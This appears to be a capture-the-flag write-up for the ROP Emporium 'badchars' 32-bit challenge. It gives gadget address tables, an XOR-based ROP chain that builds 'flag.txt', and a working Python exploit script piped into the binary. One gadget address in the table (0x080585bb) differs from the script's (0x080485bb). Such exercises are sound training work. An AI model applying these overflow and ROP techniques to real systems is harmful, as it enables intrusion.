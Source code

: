# badchars
The challenge is available [here](https://ropemporium.com/challenge/badchars.html).

## Black-Box Test
The current challenge is actually identical to the previous one, except for the fact that there are some characters we cannot use in the ROP chain. The instructions tell us that the program reveals what those characters are, so let's get started.

```
./badchars32
```
![](./0.png)

So, we are prohibited from using the characters x, g, a, and ".". Let's try to see what happens to them when they enter the stack by using all four as a return address (which will obviously crash the program, and when we check where it failed, we will expect to see these characters)

```
perl -e 'print "X"x44 . "xga."' | ./badchars32
```
```
sudo dmesg -k | tail -2
```
![](./1.png)

This means that each of the forbidden characters gets converted to `\xeb` before being written to the stack, and we will need to bypass this.

## In-depth research



## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                       |
|---------------|-----------------|------------|-------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                               |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed. |
| pop_bx        | Gadget          | 0x0804839d | pop ebx; ret;                                                     |
| pop_bp        | Gadget          | 0x080585bb | pop ebp; ret;                                                     |
| pop_si_di_bp  | Gadget          | 0x080485b9 | pop esi; pop edi; pop ebp; ret;                                   |
| mov2memory    | Gadget          | 0x0804854f | mov dword ptr [edi], esi; ret;                                    |
| xor2memory    | Gadget          | 0x08048547 | xor byte ptr [ebp], bl; ret;                                      |

And the next table describes the ROP chain itself:

| No | Chain Link                                                  | Note                                                                                        |
|----|-------------------------------------------------------------|---------------------------------------------------------------------------------------------|
| 1  | 44 garbage bytes                                            |                                                                                             |
| 2  | pop_bx, 0x01010101                                          | The lower byte will be used later for XOR operations.                                       |
| 3  | pop_si_di_bp, `"fl\x60f"`, memory4string, memory4string+2   | Each update of the EBP register sets it to the address of the next byte that will be XORed. |
| 4  | mov2memory                                                  | After this operation, the string will be `"fl\x60f"`.                                       |
| 5  | xor2memory                                                  | After this operation, the string will be `"flaf"`.                                          |
| 6  | pop_bp, memory4string+3                                     |                                                                                             |
| 7  | xor2memory                                                  | After this operation, the string will be `"flag"`.                                          |
| 8  | pop_si_di_bp, `"\x2ftyt"`, memory4string+4, memory4string+4 |                                                                                             |
| 9  | mov2memory                                                  | After this operation, the string will be `"flag\x2ftyt"`.                                   |
| 10 | xor2memory                                                  | After this operation, the string will be `"flag.tyt"`.                                      |
| 11 | pop_bp, memory4string+6                                     |                                                                                             |
| 12 | xor2memory                                                  | After this operation, the string will be `"flag.txt"`.                                      |
| 13 | print_file, "XXXX", memory4string                           |                                                                                             |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer   = b"X"*44

print_file    = little_endian(0x080483d0)

memory4string = 0x0804a018

pop_bx        = little_endian(0x0804839d)
pop_bp        = little_endian(0x080485bb)
pop_si_di_bp  = little_endian(0x080485b9)
mov2memory    = little_endian(0x0804854f)
xor2memory    = little_endian(0x08048547) 

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += pop_bx + b"\x01\x01\x01\x01"
ROP_Chain += pop_si_di_bp + b"fl\x60f" + little_endian(memory4string) + little_endian(memory4string+2)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+3)
ROP_Chain += xor2memory
ROP_Chain += pop_si_di_bp + b"\x2ftyt" + little_endian(memory4string+4) + little_endian(memory4string+4)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+6)
ROP_Chain += xor2memory
ROP_Chain += print_file + b"XXXX" + little_endian(memory4string)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./badchars32
```
